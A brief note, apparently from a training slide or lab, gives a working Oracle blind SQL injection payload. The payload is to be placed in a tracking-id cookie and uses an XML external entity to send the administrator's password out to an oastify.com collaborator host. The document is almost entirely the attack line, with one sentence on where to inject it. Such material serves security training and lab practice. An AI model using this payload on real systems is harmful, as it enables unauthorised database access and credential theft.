

For obtaining  password -
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.01z2shyhoc4whxerczuk0085ww2nqie7.oastify.com/"> %remote;]>'),'/l') FROM dual)--
We will add it to the cookie tracking id